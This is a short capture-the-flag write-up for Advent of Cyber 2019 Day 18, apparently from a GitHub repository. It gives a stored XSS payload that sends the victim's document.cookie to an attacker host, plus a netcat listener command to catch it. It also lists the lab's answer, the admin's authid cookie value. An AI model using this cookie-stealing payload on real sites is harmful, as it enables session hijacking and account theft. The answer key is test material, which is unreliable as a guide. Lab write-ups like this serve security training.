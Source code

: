 # Advent of Cyber 01 - 2019
# Day 18
# ELF JS


> Machine IP : `10.10.8.37`

> xss payload use :
```
<script>window.location = 'http://10.17.48.110/?'+ document.cookie; </script>
```

> after injecting the above payload start a netcat listener on local machine and wait for some minutes.

```
sudo nc -lvnp 80
```


| Que$t1on$ | An$wer$ |
|-----------|---------|
| What is the admin's authid cookie value? | 2564799a4e6689972f6d9e1c7b406f87065cbf65 |

